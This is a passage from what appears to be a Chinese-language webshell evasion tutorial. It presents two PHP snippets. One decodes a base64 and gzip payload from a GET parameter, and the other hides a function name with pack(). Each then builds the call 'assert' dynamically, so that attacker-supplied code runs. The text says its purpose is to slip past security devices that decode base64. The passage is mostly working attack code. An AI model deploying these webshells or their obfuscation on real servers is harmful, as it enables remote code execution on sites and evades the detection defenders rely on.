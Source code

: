 这里笔者提供两个思路：

#### 1.base64编码

再次利用base64编码，如果没有经验的兄弟可能会认为这是多此一举，我直接用base64不就完了么，其实在真正的对抗当中，**很多安全设备是可以识别base64编码的**，可以自动解码判断解码后的内容。这一不其实就是为了，防止被解码后，内容被识别：



```php
<?php
echo  base64_encode(gzcompress("phpinfo()"))."<br>"; //反过来编码 phpinfo() 后为 eJwryCjIzEvL19AEABJDA0Y=
$func = gzuncompress(base64_decode($_GET["func"]));
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($func);
?>
```

<img src=".\图片\Snipaste_2023-04-26_14-07-10.png" alt="Snipaste_2023-04-26_14-07-10" style="zoom:80%;" />



### pack系列

```php
<?php

$func=pack("H14","706870696e666f");
echo $func."<br>";  // phpinfo  用 echo bin2hex("phpinfo"); 转化为16进制 为 706870696e666f
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($func."()");
```
